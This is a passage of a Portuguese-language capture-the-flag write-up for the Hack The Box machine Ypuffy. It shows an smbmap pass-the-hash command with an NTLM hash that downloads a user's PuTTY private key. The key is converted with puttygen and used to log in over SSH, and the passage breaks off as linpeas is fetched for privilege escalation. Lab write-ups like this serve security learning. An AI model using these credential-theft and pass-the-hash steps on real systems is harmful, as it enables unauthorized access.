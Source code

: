 `smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107 --download alice/my_private_key.ppk`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_smb2.png)

# Conectando como Alice (SSH)

A chave que baixamos da máquina é no formato `.ppk`, ou seja, tem tanto a chave pública quanto a privada no mesmo arquivo, para ser usável devemos converter ela para um formato OpenSSH

Pesquisamos pra ver do que se trata e descobrimos que são feitos a partir do `PuTTYgen`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_putty.png)

Então instalamos ele na nossa máquina

`apt install putty-tools` (Já estava instalado)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_putty1.png)

A sintaxe dele é simples

`puttygen 10.10.10.107-alice_my_private_key.ppk -O private-openssh -o alice.key`

> -O -> tipo de chave, no caso private-openssh

> -o -> qual vai ser o arquivo que vai receber os dados

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_putty2.png)

Agora nos conectamos no servidor como alice

`ssh -i alice.key alice1978@10.10.10.107`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_putty3.png)

# Escalação de Privilégio (Alice1978 - Root)

Essa escalação peguei o passo a passo do `0xdf` que explicou muito bem em seu blog

Bom, uma vez dentro da máquina vamos iniciar a escalação de privilégio para root. Vamos rodar o `linpeas` na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin.png)

> https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin1.png)

Baixamos para nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin2.png)
